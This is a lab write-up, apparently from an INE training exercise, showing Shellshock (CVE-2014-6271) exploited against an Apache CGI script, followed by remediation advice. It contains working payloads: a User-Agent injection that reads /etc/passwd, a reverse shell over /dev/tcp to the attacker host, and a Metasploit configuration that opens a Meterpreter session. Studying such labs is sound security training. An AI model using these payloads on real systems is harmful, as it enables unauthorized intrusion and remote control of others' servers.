# Shellshock (CVE-2014-6271)

**Classification:** Assessment Methodologies / Vulnerability Assessment<br>
**Target:** 192.145.171.3 (demo.ine.local - Apache httpd 2.4.6)<br>
**Attacker:** 192.145.171.2

## 1. Executive Summary

The target runs an **Apache 2.4.6** server that invokes a CGI script (`/gettime.cgi`)
vulnerable to **Shellshock (CVE-2014-6271)**. By injecting a crafted `User-Agent` header we
achieve arbitrary command execution, read `/etc/passwd`, and obtain a reverse shell as the
`daemon` user. The same vulnerability is then exploited automatically with Metasploit.

## 2. Reconnaissance

```bash
nmap -sV 192.145.171.3
```

Port 80 runs **Apache httpd 2.4.6 (Unix)**.



Browsing the site shows an "Under Construction" page.



The page source reveals an AJAX call to a CGI script, `/gettime.cgi`.



Requesting the script confirms it is executed server-side.



## 3. Vulnerability Check

```bash
nmap -sV 192.145.171.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```

The script reports the target is **VULNERABLE** to Shellshock (CVE-2014-6271).



## 4. Manual Exploitation (Burp Suite)

We proxy the browser through Burp and ensure **Intercept is on**.



Reloading the CGI script captures the request.



We send the request to Repeater and inject the Shellshock payload into the `User-Agent`
header to run a command.

```http
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```



The response returns the contents of `/etc/passwd`, confirming command execution.



## 5. Reverse Shell

We start a Netcat listener on the attacker machine.

```bash
nc -nvlp 1234
```



Then we send a payload that spawns a reverse Bash shell back to us.

```http
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.145.171.2/1234 0>&1'
```



The listener catches the shell as the `daemon` user.

```bash
whoami
# daemon
```



We confirm the operating system.

```bash
cat /etc/*issue
uname -a
# Ubuntu 14.04.6 LTS
```



## 6. Automatic Exploitation (Metasploit)

The same flaw can be exploited with Metasploit.

```bash
search shellshock
```



We select the Apache `mod_cgi` module and configure it.

```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set LHOST 192.145.171.2
set LPORT 1234
set RHOSTS 192.145.171.3
set TARGETURI /gettime.cgi
```



```bash
exploit
```

A Meterpreter session is opened.



```bash
sysinfo
# demo.ine.local - Ubuntu 14.04
```



## 7. Remediation Recommendations

1. **Patch Bash** to a version that fixes CVE-2014-6271 (and the follow-up CVEs
   2014-7169, 2014-6277, 2014-6278, 2014-7186/7187).
2. **Avoid CGI where possible:** disable `mod_cgi`/CGI scripts that pass request data into
   environment variables, or migrate to a safer execution model.
3. **Input validation / WAF:** filter malicious patterns (e.g. `() { :; };`) in HTTP
   headers.
4. **Least privilege:** run the web server/CGI under a low-privileged account (as seen,
   `daemon`) and segment the host to limit post-exploitation impact.
